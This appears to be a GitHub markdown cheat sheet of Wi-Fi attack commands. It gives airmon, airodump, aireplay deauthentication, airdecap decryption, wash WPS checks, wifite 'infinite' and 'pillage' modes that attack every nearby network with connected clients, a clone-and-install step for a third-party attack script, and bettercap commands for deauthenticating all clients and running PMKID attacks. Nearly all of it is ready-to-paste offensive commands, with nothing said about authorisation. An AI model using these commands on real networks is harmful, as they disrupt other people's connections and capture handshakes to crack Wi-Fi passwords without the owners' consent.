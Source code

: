 # Wifi Sniffing

## Airmon:

	airmon-ng
	airmon-ng start wlan0mon
	airmon-ng stop wlan0mon
	airmon-ng start wlan0mon 9 (channel 9)
	
Disable all network services for monitor mode:

	airmon-ng check kill

## Airodump:

	airodump-ng -c 9 --bssid 00:14:6C:7E:40:80 -w psk wlan0mon

## Aireplay:

	aireplay-ng -0 1 -a 00:14:6C:7E:40:80 -c 00:0F:B5:FD:FB:C2 wlan0mon

## Airdecap-ng:

	airdecap-ng -e 'the ssid' -p passphrase  tkip.cap

The capture file must contain a valid four-way handshake. For this purpose having (packets 2 and 3) or (packets 3 and 4) will work correctly. In fact, you don't truly need all four handshake packets.

As well, only data packets following the handshake will be decrypted. This is because information is required from the handshake in order to decrypt the data packets.

## Wash:

Can be used to know if WPS is actived on router

	sudo wash -i wlan0mon

## Wifite:

Automated tools to get all the handshakes of network we scan.

Can be use with other softwares to send the handshakes in a special format on a website to crack the WI-FI password using a lot of connected servers.

	sudo wifite --dict '/home/kali/Downloads/custom-smprepchar-app0-100.txt' --clients-only --power 27 --bully --wps --infinite -p 30

### Infinite mode:

 Loop and continue after each attack. (scan 60 sec)

	sudo wifite -inf -mac -p 60 --kill --clients-only --no-wps --no-pmkid --skip-crack

### Pillage mode: 

Attack all wireless with connected clients after 5 minutes scan.

	sudo wifite -mac -p 300 --kill --clients-only --no-wps --no-pmkid --skip-crack

## Lazy Script:

	cd (back to user folder)
	git clone https://github.com/arismelachroinos/lscript.git
	cd lscript
	chmod +x install.sh
	./install.sh
	

## Bettercap:

Get handshakes easily for all networks

	sudo bettercap --iface wlan1mon
	help wifi
	wifi.recon on (wifi sniffing)
	wifi.show
	wifi.deauth all (interface deauthentification)
	set wifi.handshakes '/desiredfolderlocation' (choose directory for hanhshakes)

	wifi.assoc all (PMKID Attack) (use all or MAC address)
	wifi.show
